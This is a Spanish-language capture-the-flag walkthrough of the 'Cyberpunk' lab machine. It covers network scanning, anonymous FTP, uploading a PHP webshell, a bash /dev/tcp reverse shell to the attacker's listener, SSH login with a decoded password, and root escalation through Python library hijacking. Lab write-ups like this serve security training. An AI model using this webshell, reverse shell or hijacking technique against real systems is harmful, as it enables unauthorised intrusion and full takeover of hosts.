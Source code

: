 ```yaml
---
layout: post
title: "Cyberpunk"
date: 2024-06-10 14:05:23
category: hackerlabs
vm: hackerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Cyberpunk </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/cyberpunk/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Cyberpunk/host.png){:.margin}

**1\.** Veo hosts activos en la red.

`sudo arp-scan -l`

![img](/notas/public/img/thehackerlabs/Cyberpunk/arp.png){:.margin}

**2\.** Escaneo los puertos y servicios corriendo en la maquina.

`sudo nmap -p- --open -T5 -n -Pn -sCV --min-rate 192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/nmap.png){:.margin}

**3\.** En la web no hay nada mas que una imagen.

`http://192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80.png){:.margin}

**4\.** Ingreso por ftp como anonymous y veo tres recursos.

`ftp 192.168.1.7`

![img](/notas/public/img/thehackerlabs/Cyberpunk/ftp.png){:.margin}

**5\.** Analizando los recursos.

_5.1- En imagenes encuentro la imagen de la web_

`http://192.168.1.7/images`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80images.png){:.margin}

_5.2- Aqui encuentro una nota_

`http://192.168.1.7/secret.txt`

![img](/notas/public/img/thehackerlabs/Cyberpunk/80secrettxt.png){:.margin}

**6\.** Subiendo un webshell por ftp.

`nano shell.php`

`<?php system($_GET['cmd']);?>`

`put shell.php`

![img](/notas/public/img/thehackerlabs/Cyberpunk/shell.png){:.margin}

**7\.** Obteniendo la conexion por reverse shell.

_7.1- Me pongo en escucha_

`sudo nc -nlvp 443`

![img](/notas/public/img/thehackerlabs/Cyberpunk/nc.png){:.margin}

_7.2- Envio la reverse shell_

`http://192.168.1.7/shell.php?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.1.13/443 0>%261"`

![img](/notas/public/img/thehackerlabs/Cyberpunk/reverseshell.png){:.margin}

_7.1- Recibo la conexion_

![img](/notas/public/img/thehackerlabs/Cyberpunk/ncok.png){:.margin}

**8\.** Encuentro un archivo con codigo brainfuck, lo interpreto con [dcodefr](https://www.dcode.fr/brainfuck-language).

`ls /opt`

`cat /opt/arasaka.txt`

![img](/notas/public/img/thehackerlabs/Cyberpunk/arasakatxt.png){:.margin}
![img](/notas/public/img/thehackerlabs/Cyberpunk/dcodefr.png){:.margin}

**9\.** Tengo usuario arasaka, accedo por ssh con la contraseña interpretada anteriormente.

`cat /etc/passwd | grep bash`

`ssh `

![img](/notas/public/img/thehackerlabs/Cyberpunk/catpasswd.png){:.margin}
![img](/notas/public/img/thehackerlabs/Cyberpunk/ssharasaka.png){:.margin}

**10\.** Revisando archivos.

_10.1- Encuentro python que puedo ejecutarlo como root con el binario python3.11_

`ls -l`

`sudo -l`

![img](/notas/public/img/thehackerlabs/Cyberpunk/sudol.png){:.margin}

_10.2- Veo que el script importa una libreria, pero no especifica la ruta de llamada_

`cat randombase64.py`

`sudo /usr/bin/python3.11 /home/arasaka/randombase64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/catrandom.png){:.margin}

**11\.** Creo un script llamado base64 para hacer Python Library Hijacking(_suplantar un libreria_).

`echo -e "import os \nos.system('/bin/bash')" > base64.py`

`cat base64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/base64py.png){:.margin}

**12\.** Escalando a root.

`sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py`

![img](/notas/public/img/thehackerlabs/Cyberpunk/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>